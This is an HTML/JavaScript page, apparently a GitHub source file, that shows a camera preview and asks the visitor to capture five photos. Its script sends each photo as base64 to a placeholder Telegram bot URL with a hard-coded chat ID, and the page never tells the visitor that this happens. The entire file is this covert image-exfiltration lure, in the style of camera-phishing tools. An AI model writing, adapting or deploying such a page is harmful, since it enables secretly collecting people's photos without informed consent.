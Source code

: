 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Camera Capture</title>
</head>
<body>
    <h1>Click the button to capture 5 photos</h1>
    <video id="video" autoplay playsinline style="width: 100%; max-width: 400px;"></video>
    <button id="capture">Capture Photo</button>
    <canvas id="canvas" style="display:none;"></canvas>
    <script>
        const video = document.getElementById('video');
        const canvas = document.getElementById('canvas');
        const captureButton = document.getElementById('capture');

        // Access the camera
        navigator.mediaDevices.getUserMedia({ video: { facingMode: 'user' } })
            .then(stream => {
                video.srcObject = stream;
            })
            .catch(err => {
                console.error("Error accessing the camera: ", err);
            });

        let photoCount = 0;

        // Capture photo when button is clicked
        captureButton.addEventListener('click', () => {
            if (photoCount >= 5) {
                alert("You have captured 5 photos already!");
                return;
            }

            canvas.width = video.videoWidth;
            canvas.height = video.videoHeight;
            canvas.getContext('2d').drawImage(video, 0, 0);

            // Convert canvas image to base64
            const imageBase64 = canvas.toDataURL('image/png');

            // Send the image to Telegram bot (replace YOUR_TELEGRAM_BOT_URL with your actual URL)
            fetch('YOUR_TELEGRAM_BOT_URL', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    chat_id: 7996177041,
                    photo: imageBase64
                })
            }).then(response => {
                console.log("Photo sent successfully!");
            }).catch(error => {
                console.error("Error sending photo: ", error);
            });

            photoCount++;
            if (photoCount === 5) {
                alert("You have captured all 5 photos!");
            }
        });
    </script>
</body>
</html>
